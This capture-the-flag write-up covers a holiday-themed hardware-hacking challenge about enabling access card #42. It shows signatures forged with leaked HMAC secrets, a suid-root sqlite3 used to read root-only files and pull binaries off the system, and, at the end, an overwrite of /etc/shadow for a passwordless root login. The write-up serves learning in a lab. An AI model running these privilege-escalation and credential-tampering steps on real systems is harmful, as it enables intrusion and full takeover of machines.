 
# Objective 7: Hardware Hacking 101 Part 2

**Difficultree: 🎄**  
**Location: The Front Yard**

The objective is to enable badge card #42 for access in the "Santa's Little Helpers" tool.

## Easy 🥈
For this mode, a hint is provided to look into the history of the shell.
In fact, in the history this command is captured:
```
slh --passcode CandyCaneCrunch77 --set-access 1 --id 143
```

So using the following command, the objective can be cleared for the easy mode:
```
slh --passcode CandyCaneCrunch77 --set-access 1 --id 42
```
**Achievement: [Silver] Hardware Hacking 101 Part 2**

### alternative part 2/easy
Using the HMAC secret key obtained below along with [CyberChef](https://gchq.github.io/CyberChef/#recipe=HMAC%28%7B%27option%27:%27UTF8%27,%27string%27:%27873ac9ffea4dd04fa719e8920cd6938f0c23cd678af330939cff53c3d2855f34%27%7D,%27SHA256%27%29&input=MWMwNjAxOGI2LTVlODAtNDM5NS1hYjcxLWFlNTEyNDU2MDE4OQ) the HMAC can be calculated and the database updated directly:
```
sqlite> .open access_cards
sqlite> update access_cards set access=1,sig='e96c7dc0f25ebcbc45c9c077d4dc44adb6e4c9cb25d3cc8f88557d9b40e7dbaf' where id=42;
```
This clears the objective once the validation is triggered using `slh --view-card 42`.


## Gold 🥇
For the hard part, the process `/root/check_hmac`is checking every 5 seconds the contents of the database.

All access card information along with the tool config is stored in the sqlite3 file "access_cards". The file is writable only by `root`, but the "slh" tool and "sqlite3" are suid `root`.

Database schema and the data for card #42 look like this:
```
sqlite> .open access_cards
sqlite> .schema
CREATE TABLE access_cards (
            id INTEGER PRIMARY KEY,
            uuid TEXT,
            access INTEGER,
            sig TEXT
        );
CREATE TABLE config (
            id INTEGER PRIMARY KEY,
            config_key TEXT UNIQUE,
            config_value TEXT
        );

sqlite> select * from config;     
1|hmac_secret|9ed1515819dec61fd361d5fdabb57f41ecce1a5fe1fe263b98c0d6943b9b232e
2|hmac_message_format|{access}{uuid}
3|admin_password|3a40ae3f3fd57b2a4513cca783609589dbe51ce5e69739a33141c5717c20c9c1
4|app_version|1.0

sqlite> select * from access_cards where id=42;
42|c06018b6-5e80-4395-ab71-ae5124560189|0|ecb9de15a057305e5887502d46d434c9394f5ed7ef1a51d2930ad786b02f6ffd
```
Interestingly, when creating (using CyberChef as mentioned in the hints) the HMAC with SHA256 and the key from `hmac_secret` for `access` concatenated with the UUID of card #42
```
0c06018b6-5e80-4395-ab71-ae5124560189
```
it does not result in the value captured in the database table.   
Table:   
```
ecb9de15a057305e5887502d46d434c9394f5ed7ef1a51d2930ad786b02f6ffd
```
[Cyberchef](https://gchq.github.io/CyberChef/#recipe=HMAC%28%7B%27option%27:%27UTF8%27,%27string%27:%279ed1515819dec61fd361d5fdabb57f41ecce1a5fe1fe263b98c0d6943b9b232e%27%7D,%27SHA256%27%29&input=MGMwNjAxOGI2LTVlODAtNDM5NS1hYjcxLWFlNTEyNDU2MDE4OQ) (using the key as UTF8 string):   
```
34f4ccd2fda66ac2f3ed2136ce6cddecac92a4437fd2e0fc4ebaad61bc5893eb
```

So it seems, that the captured `hmac_secret` is not the key being used to calculate this HMAC.

Scanning the system shows, that apart from `slh`and `sqlite3` also `runtoanswer`is suid root.
For the hard mode, `runtoanswer`reads its config from `/etc/runtoanswer/hard.yaml`, which is unfortunately only accessible by `root`. The tool asks for the HMAC key being used to calculate the signatures.

But - it is possible to read the file with the help of `sqlite3`, as it is suid `root`:
```
sqlite> CREATE TABLE yaml(data BLOB);
sqlite> INSERT INTO yaml(data) VALUES(readfile('/etc/runtoanswer/hard.yaml'));
sqlite> select * from yaml;
# This is the config file for runtoanswer, where you can set up your challenge!
---
title: "Hard"
# This is the completionSecret from the Content sheet - don't tell the user this!
key: a08b747109942489cd74fc89e66d7c4c

Action: "hard"

# The answer that the user is expected to enter - case sensitive
# (This is optional - if you don't have an answer, then running this will immediately win)
answer: "873ac9ffea4dd04fa719e8920cd6938f0c23cd678af330939cff53c3d2855f34"
```
The validation using Cyberchef confirms, that this is the right key: https://gchq.github.io/CyberChef/#recipe=HMAC(%7B'option':'UTF8','string':'873ac9ffea4dd04fa719e8920cd6938f0c23cd678af330939cff53c3d2855f34'%7D,'SHA256')&input=MGMwNjAxOGI2LTVlODAtNDM5NS1hYjcxLWFlNTEyNDU2MDE4OQ
 
 So starting `runtoanswer` and providing it the answer `873ac9ffea4dd04fa719e8920cd6938f0c23cd678af330939cff53c3d2855f34` 
 clears the objective.   
**The `runtoanswer`binary along with the config files in `/etc/runtoanswer` was removed from the system in the meantime.**

**Achievement: [Gold] Hardware Hacking 101 Part 2**

### alternative part 2/hard I
Using the `hmac_secret` from the database it is possible to create the correct signature using [CyberChef](https://gchq.github.io/CyberChef/#recipe=HMAC%28%7B%27option%27:%27UTF8%27,%27string%27:%279ed1515819dec61fd361d5fdabb57f41ecce1a5fe1fe263b98c0d6943b9b232e%27%7D,%27SHA256%27%29&input=MWMwNjAxOGI2LTVlODAtNDM5NS1hYjcxLWFlNTEyNDU2MDE4OQ) for the payload `1c06018b6-5e80-4395-ab71-ae5124560189`.   
So setting this signature in the database for card 42 immediately clears the objective.
```
sqlite> .open access_cards
sqlite> update access_cards set access=1,sig='135a32d5026c5628b1753e6c67015c0f04e26051ef7391c2552de2816b1b7096' where id=42;
```

### alternative part 2/hard II
Analyzing the `check_hmac` tool (provided below) shows, that it checks for the signature `135a32d5026c5628b1753e6c67015c0f04e26051ef7391c2552de2816b1b7096`.
So setting this signature in the database for card 42 immediately clears the objective.
```
sqlite> .open access_cards
sqlite> update access_cards set sig='135a32d5026c5628b1753e6c67015c0f04e26051ef7391c2552de2816b1b7096' where id=42;
```
The objective is cleared regardless of the `access`value, because `check_hmac` does only look at the signature using this statement:
`SELECT sig FROM access_cards WHERE id = 42`

---
### HMAC secrets
The HMAC secret found in the database is the SHA256 hash of "pizza".    The HMAC secret which has to be used to create a valid signature is the SHA256 hash of "cheese".

### SLH_PASSCODE 
The expected passcode can be supplied in the environment variable `SLH_PASSCODE`:   
![slh passcode in ENV](slh-env.png)

### hard coded credentials
The passcode `CandyCaneCrunch77`found in the shell history is hard coded in the slh binary. The `admin_password` from the database is not used.   
Also the HMAC secret `873ac9ffea4dd04fa719e8920cd6938f0c23cd678af330939cff53c3d2855f34` is hard coded in the binary and not read from the database.

### binaries
The [slh](slh) and the [check_hmac](check_hmac) binaries were exfiltrated from the system and can be found in this repo for further analysis.   
This was performed using `sqlite3` as described for the retrieval of `/etc/runtoanswer/hard.yaml`. The only caveat is - as we are talking about binary data here - that the `readfile()`has to be encapsulated in `hex()`.   
Once retrieved, the files can be unpacked using `pyi-archive-viewer`. They both contain a `.pyc`file (`slh`resp. `check_hmac`). At least the strings from these `.pyc`files are readable and can be used for educated guesses.   
Furthermore, as the binaries are now available locally, they can be executed using debugging tools.

### full system takeover
Using the suid root tool `sqlite3` it is possible to overwrite `/etc/shadow` with own data and with that the takeover of the system:
```
slh@slhconsole\> sqlite3
sqlite> CREATE TABLE shadow(data BLOB);
sqlite> INSERT INTO shadow(data) VALUES('root::20038:0:99999:7:::');
sqlite> SELECT writefile('/etc/shadow',data) FROM shadow;
sqlite> .exit
slh@slhconsole\> su -
root@6f03030c64e5:~# id
uid=0(root) gid=0(root) groups=0(root)

```

<!--stackedit_data:
eyJoaXN0b3J5IjpbLTE2MTg2MTY3ODcsLTEyMzI2NDYzMCw3Nz
IzNzYzMjksNTgxNTA0NTM4LC00MDc3NDA1NzZdfQ==
-->